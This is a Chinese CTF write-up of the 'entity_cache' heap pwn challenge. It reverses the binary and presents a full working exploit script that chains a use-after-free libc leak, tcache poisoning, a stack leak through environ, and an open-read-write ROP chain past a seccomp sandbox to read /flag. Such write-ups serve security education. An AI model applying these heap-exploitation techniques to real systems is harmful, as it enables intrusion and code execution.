



# 2025宁波网络安全大赛预赛pwn：entity_cache 详解-先知社区

> **来源**: https://xz.aliyun.com/news/18723  
> **文章ID**: 18723

---

## 题目情况



题目文件单一个entity\_cache文件，没给libc文件，保护全开：

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

运行起来，菜单风格题目，给出了pie地址泄露

```
PWN附件 ➤ ./entity_cache

===============================
  IMF SECURE INTERFACE ONLINE
  Target: ENTITY CACHE NODE
    Mission: EXFILTRATE /flag
[DEBUG INFO] 0x55f727c00a1a
===============================


========= IMF TERMINAL =========
1. Inject Fragment
2. Override Fragment
3. Purge Fragment
4. Probe Fragment
5. Abort Mission
================================
>> Select Operation Code:
```

## 逆向分析

main：提供了5个选项，除了增删改查外，还有个`return 0`的选项

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  mission_init(argc, argv, envp);               // 泄露pie
  sandbox();                                    // 禁用execve
  while ( 1 )
  {
    mission_menu();
    __isoc99_scanf("%d", &v4);
    getchar();
    switch ( v4 )
    {
      case 1:
        allocate_fragment();                    // 申请内存，写入数据
        break;
      case 2:
        edit_fragment();						// 编辑
        break;
      case 3:
        release_fragment();                     // 释放，指针没清空，可能UAF
        break;
      case 4:
        inspect_fragment();                     // 打印，可泄露地址
        break;
      case 5:
        puts("[IMF] Mission aborted. Terminal shutting down.");
        return 0;
      default:
        puts("[!] Invalid Operation Code.");
        break;
    }
  }
}
```

mission\_init中给出了地址：

```
int __fastcall mission_init(int argc, const char **argv, const char **envp)
{
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  puts("
===============================");
  puts("  IMF SECURE INTERFACE ONLINE  ");
  puts("  Target: ENTITY CACHE NODE    ");
  puts("    Mission: EXFILTRATE /flag  ");
  printf("[DEBUG INFO] %p
", sandbox);
  return puts("===============================
");
}
```

是sandbox的地址，该函数：

```
unsigned __int64 __fastcall sandbox()
{
  __int64 v0; // r9
  __int64 v2; // [rsp+0h] [rbp-50h] BYREF
  __int16 n32; // [rsp+10h] [rbp-40h] BYREF
  char v4; // [rsp+12h] [rbp-3Eh]
  char v5; // [rsp+13h] [rbp-3Dh]
  int n4; // [rsp+14h] [rbp-3Ch]
  __int16 n21; // [rsp+18h] [rbp-38h]
  char v8; // [rsp+1Ah] [rbp-36h]
  char n2; // [rsp+1Bh] [rbp-35h]
  int v10; // [rsp+1Ch] [rbp-34h]
  __int16 n32_1; // [rsp+20h] [rbp-30h]
  char v12; // [rsp+22h] [rbp-2Eh]
  char v13; // [rsp+23h] [rbp-2Dh]
  int v14; // [rsp+24h] [rbp-2Ch]
  __int16 n21_1; // [rsp+28h] [rbp-28h]
  char v16; // [rsp+2Ah] [rbp-26h]
  char v17; // [rsp+2Bh] [rbp-25h]
  int n59; // [rsp+2Ch] [rbp-24h]
  __int16 n6; // [rsp+30h] [rbp-20h]
  char v20; // [rsp+32h] [rbp-1Eh]
  char v21; // [rsp+33h] [rbp-1Dh]
  int v22; // [rsp+34h] [rbp-1Ch]
  __int16 n6_1; // [rsp+38h] [rbp-18h]
  char v24; // [rsp+3Ah] [rbp-16h]
  char v25; // [rsp+3Bh] [rbp-15h]
  int n2147418112; // [rsp+3Ch] [rbp-14h]
  unsigned __int64 v27; // [rsp+48h] [rbp-8h]

  v27 = __readfsqword(0x28u);
  n32 = 32;
  v4 = 0;
  v5 = 0;
  n4 = 4;
  n21 = 21;
  v8 = 0;
  n2 = 2;
  v10 = -1073741762;
  n32_1 = 32;
  v12 = 0;
  v13 = 0;
  v14 = 0;
  n21_1 = 21;
  v16 = 0;
  v17 = 1;
  n59 = 59;
  n6 = 6;
  v20 = 0;
  v21 = 0;
  v22 = 0;
  n6_1 = 6;
  v24 = 0;
  v25 = 0;
  n2147418112 = 2147418112;
  LOWORD(v2) = 6;
  prctl(38, 1, 0, 0, 0, v0, v2, &n32);
  prctl(22, 2, &v2);
  return __readfsqword(0x28u) ^ v27;
}
```

通过prctl启动了沙箱，seccomp查看：

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x02 0xc000003e  if (A != ARCH_X86_64) goto 0004
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0005
 0004: 0x06 0x00 0x00 0x00000000  return KILL
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

禁用了execve的syscall

接下来看选项1：可以申请最大0x500的内存，写入任意数据，不存在溢出

```
unsigned __int64 allocate_fragment()
{
  unsigned int n0xA_1; // ebx
  unsigned int idx; // [rsp+0h] [rbp-20h] BYREF
  unsigned int size; // [rsp+4h] [rbp-1Ch] BYREF
  unsigned __int64 v4; // [rsp+8h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  printf("[+] Request fragment id > ");
  __isoc99_scanf("%d", &idx);
  if ( idx > 0xA || cache[idx] )                // 最多11个
  {
    puts("[ENTITY] All cache sectors occupied.");
    exit(0);
  }
  printf("[+] Request fragment size > ");
  __isoc99_scanf("%d", &size);
  if ( size > 0x500 )                           // 最大0x500
  {
    puts("[!] Invalid sector size.");
    exit(0);
  }
  cache_size[idx] = (int)size;
  n0xA_1 = idx;
  cache[n0xA_1] = (__int64)malloc(cache_size[idx]);// 申请内存
  printf("[+] Upload fragment > ");
  read(0, (void *)cache[idx], cache_size[idx]); // 写入数据
  printf("[IMF] Fragment #%d injected into ENTITY.
", idx);
  return __readfsqword(0x28u) ^ v4;
}
```

选项2：指定索引编辑数据，也不存在溢出

```
unsigned __int64 edit_fragment()
{
  unsigned int n9; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("[>] Select fragment id > ");
  __isoc99_scanf("%d", &n9);
  getchar();
  if ( n9 <= 9 && cache[n9] )                   // 变10个了，
  {
    printf("[~] Override data stream > ");
    read(0, (void *)cache[n9], cache_size[n9]); // 根据size数组写入数据
    puts("[IMF] Fragment updated.");
  }
  else
  {
    puts("[!] Invalid fragment reference.");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

选项3：指定索引释放内存，但是指针没清空，存在UAF缺陷

```
unsigned __int64 release_fragment()
{
  unsigned int idx; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("[>] Select fragment id > ");
  __isoc99_scanf("%d", &idx);
  getchar();
  if ( idx <= 9 && cache[idx] )
  {
    free((void *)cache[idx]);                   // 指针没释放
    puts("[ENTITY] Fragment purged from cache.");
  }
  else
  {
    puts("[!] Invalid release attempt.");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

选项4：打印指定索引的内存，可配合选项3来实现UAF-Read

```
unsigned __int64 inspect_fragment()
{
  unsigned int n9; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("[>] Select fragment id > ");
  __isoc99_scanf("%d", &n9);
  getchar();
  if ( n9 <= 9 && cache[n9] )
    puts((const char *)cache[n9]);              // 打印
  else
    puts("[!] Cannot access void fragment.");
  return __readfsqword(0x28u) ^ v2;
}
```

## 利用分析

整理当前分析到的信息：

1. 没有提供 libc 文件
2. 存在 pie 地址泄露
3. 有沙箱，禁用了 execve 的 syscall
4. 可以申请 0x500 以内的内存，写入任意数据
5. 申请的内存指针保存在数组里，由于 pie 泄露，该数组地址可知
6. 存在 UAF 漏洞，可以读取或者修改释放了的 chunk 的内容

往往通过现有的信息可以拼凑出出题人的意图：

1. 这里给了pie，意味着可能需要在指针数组上做操作
2. 堆题上了沙箱，又给了return的菜单选项，说明大概率得去栈上做个 rop
3. 没有提供libc文件，缺又可以申请0x500以内的内存，说明允许操作unsortedbin size chunk，配合UAF读可以得到arena地址

综上，思路如下：

1. 申请出unsortedbin size chunk然后释放掉，通过UAF拿到libc地址，根据libc地址计算偏移通过libc-database查到libc版本
2. 知道libc版本了，就知道有没有tcachebin可以用了，有tcachebin就打tcachebin dup，没有就打fastbin dup，这二者存在区别，盲打会产生更多的试错成本
3. 通过dup控制指针数组，就可以做到任意内存写任意数据了
4. 然后就是rop绕沙箱的过程：environ泄露栈地址，计算main函数return地址，申请栈内存，写入rop，绕沙箱读flag

### 辅助函数

```
def cmd(i, prompt = b"Select Operation Code: "):
    sla(prompt, i)

def add(idx:int,size:int,ctx:bytes):
    cmd('1')
    sla(b"id > ",str(idx).encode())
    sla(b"size > ",str(size).encode())
    sla(b"fragment > ",ctx)
    #......

def edit(idx:int,ctx:bytes):
    cmd('2')
    sla(b"id > ",str(idx).encode())
    sla(b"stream > ",ctx)

def dele(idx:int):
    cmd('3')
    sla(b"id > ",str(idx).encode())

def show(idx:int):
    cmd('4')
    sla(b"id > ",str(idx).encode())


ru(b"[DEBUG INFO] ")
pie_leak = rl()[:-1]
pie_leak = int(pie_leak, 16)
elf.address = pie_leak - 0xa1a
success("pie_leak: " + hex(elf.address))
```

### 泄露 libc 版本

```
"""
给了PIE地址, 需要猜libc版本
漏洞是UAF, 最大申请0x500内存

通过unsortedbin 的指针去猜测吧
"""
add(0,0x488,b"1")
add(1,0x38,b"22222222222222222")

dele(0)
show(0)

libc_leak = rl()[:-1]
libc_leak = unpack(libc_leak,"all")
success(hex(libc_leak))
```

申请一个unsortedbin size chunk，一个分隔chunk，然后释放了读：

```
[+] 0x7f235db74ca0
```

unsortedbin chunk fd 指向 main\_arena+96的地方，而main\_arena就是0x7f235db74c40：



经过测试（这是我最大的踩坑点），可能是他用的libc没有main\_arena符号，用的不是这个2.29的，该libc 2.29且没有启用tcache，非主流libc版本，不像题目常见的情况也

所谓测试就是，假设当前libc是对的，继续往后写exp，然后后续的回显都本地远程匹配的话，说明是对的，这里就是发现后续该泄露stack地址的时候，给了个libc地址，发现问题所在

就需要继续猜测libc版本，接下来的思路就是，找到main\_arena附近的符号

对于2.34之前，可以用hook地址：

* main\_arena-0x10：\_\_malloc\_hook
* main\_arena-0x18：\_\_realloc\_hook



搜出来libc2.27，经测试，是这个了

### 攻击指针数组，得到任意地址读写，泄露栈地址

```
"""
有沙箱execve被禁用, 需要去栈上打rop
计划: 数组保存在bss段,伪造chunk把chunk打到bss上去,然后通过environ泄露栈地址,去修改返回地址写rop
"""
dele(1)
edit(1,pack(elf.address + 0x202060))
add(8,0x38,b"test11111111")
#add(9,0x38,pack((0xdeadbeef)))
add(9,0x38,pack((libc.sym.environ)))


show(0)
environ = rl()[:-1]
environ = unpack(environ,"all")
success(f"environ : {hex(environ)}")
```

```
[+] environ : 0x7ffc5bab5ef8
```

2.27下，用最常规的 tcache poisoning 操作打即可，操控指针数组的0号指针，指向environ变量

environ变量是libc和stack连接的桥梁，libc中仅有的stack地址

通过UAF读取其内容，得到stack泄露

### 劫持返回地址，构造ROP

查看返回地址：

```
pwndbg> retaddr
0x7ffc5bab55c8 —▸ 0x7f3d055990f8 (_IO_file_underflow+296) ◂— test rax, rax
0x7ffc5bab55f8 —▸ 0x7f3d0559a3a2 (_IO_default_uflow+50) ◂— cmp eax, -1
0x7ffc5bab5618 —▸ 0x7f3d05577b9a (_IO_vfscanf+2474) ◂— cmp eax, -1
0x7ffc5bab5d08 —▸ 0x7f3d05587f88 (__isoc99_scanf+280) ◂— and dword ptr [rbx + 0x74], 0xffffffeb
0x7ffc5bab5de8 —▸ 0x564f6b60109d (main+77) ◂— call getchar@plt
0x7ffc5bab5e08 —▸ 0x7f3d0552dc87 (__libc_start_main+231) ◂— mov edi, eax
0x7ffc5bab5ec8 —▸ 0x564f6b60093a (_start+42) ◂— hlt
```

main的返回地址在0x7ffc5bab5e08，需要从这里控制内存，计算偏移：0xf0

```
"""
hijack retaddr
"""
retaddr = stack_leak-0xf0
success(f"retaddr : {hex(retaddr)}")
edit(9,pack(retaddr))
show(0)
leak_ = rl()[:-1]
leak_ = unpack(leak_,"all")
success(f"retaddr leak : {hex(leak_)}")

"""
rop chain & shellcode
"""
rop = ROP([elf,libc])
rop.raw(0xdeadbeef)
edit(0,rop.chain())
```

程序成功执行到0xdeadbeef：

```
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00000000deadbeef in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
──────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────
*RAX  0
*RBX  0
*RCX  0
*RDX  0x7fd7332478c0 ◂— 0
*RDI  1
*RSI  0x7fd7332467e3 (_IO_2_1_stdout_+131) ◂— 0x2478c0000000000a /* '
' */
*R8   0x2e
*R9   0
*R10  0x7fd732ff8bc0 ◂— add al, byte ptr [rax]
 R11  0x246
*R12  0x55ade4a00910 (_start) ◂— xor ebp, ebp
*R13  0x7ffd3dbe39e0 ◂— 1
*R14  0
 R15  0
*RBP  0x55ade4a01140 (__libc_csu_init) ◂— push r15
*RSP  0x7ffd3dbe3910 ◂— 0xa /* '
' */
*RIP  0xdeadbeef
───────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────
Invalid address 0xdeadbeef


```

劫持成立，接下来就是写rop的利用了

### rop 绕沙箱执行syscall

最简单的方式，就是orw了：

```
"""
rop chain & shellcode
"""
buff = elf.address + 0x202a60
rop = ROP([elf,libc])
rop.read(0,buff,7)
rop.open(buff,0,0)
rop.read(3,buff,0x30)
rop.write(1,buff,0x30)

edit(0,rop.chain())
cmd(b"5")
s(b"./flag\x00")
```

## 完整exp

```
#!/usr/bin/env python3
from pwncli import *
cli_script()

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

def cmd(i, prompt = b"Select Operation Code: "):
    sla(prompt, i)

def add(idx:int,size:int,ctx:bytes):
    cmd('1')
    sla(b"id > ",str(idx).encode())
    sla(b"size > ",str(size).encode())
    sla(b"fragment > ",ctx)
    #......

def edit(idx:int,ctx:bytes):
    cmd('2')
    sla(b"id > ",str(idx).encode())
    sla(b"stream > ",ctx)

def dele(idx:int):
    cmd('3')
    sla(b"id > ",str(idx).encode())

def show(idx:int):
    cmd('4')
    sla(b"id > ",str(idx).encode())


ru(b"[DEBUG INFO] ")
pie_leak = rl()[:-1]
pie_leak = int(pie_leak, 16)
elf.address = pie_leak - 0xa1a
success("pie_leak: " + hex(elf.address))
"""
给了PIE地址, 需要猜libc版本
漏洞是UAF, 最大申请0x500内存

通过unsortedbin 的指针去猜测吧
"""
add(0,0x488,b"1")
add(1,0x38,b"22222222222222222")

dele(0)
show(0)

libc_leak = rl()[:-1]
libc_leak = unpack(libc_leak,"all")
success(hex(libc_leak))

libc.address = libc_leak -0x3ebca0
success("libc: " + hex(libc.address))
success("pie_leak: " + hex(elf.address))

"""
有沙箱execve被禁用, 需要去栈上打rop
计划: 数组保存在bss段,伪造chunk把chunk打到bss上去,然后通过environ泄露栈地址,去修改返回地址写rop
"""
dele(1)
edit(1,pack(elf.address + 0x202060))
add(8,0x38,b"test11111111")
#add(9,0x38,pack((0xdeadbeef)))
add(9,0x38,pack((libc.sym.environ)))


show(0)
environ = rl()[:-1]
environ = unpack(environ,"all")
stack_leak = environ 
success(f"environ : {hex(environ)}")


"""
hijack retaddr
"""
retaddr = stack_leak-0xf0
success(f"retaddr : {hex(retaddr)}")
edit(9,pack(retaddr))
show(0)
leak_ = rl()[:-1]
leak_ = unpack(leak_,"all")
success(f"retaddr leak : {hex(leak_)}")


"""
rop chain & shellcode
"""
buff = elf.address + 0x202a60
rop = ROP([elf,libc])
rop.read(0,buff,7)
rop.open(buff,0,0)
rop.read(3,buff,0x30)
rop.write(1,buff,0x30)

edit(0,rop.chain())
cmd(b"5")
s(b"./flag\x00")
ia()
```

## 总结

本题要点：

* 通过main\_arena地址猜解libc版本
* tcache poisoning
* environ 泄露栈地址
* rop 绕过 seccomp 沙箱读取flag

‍
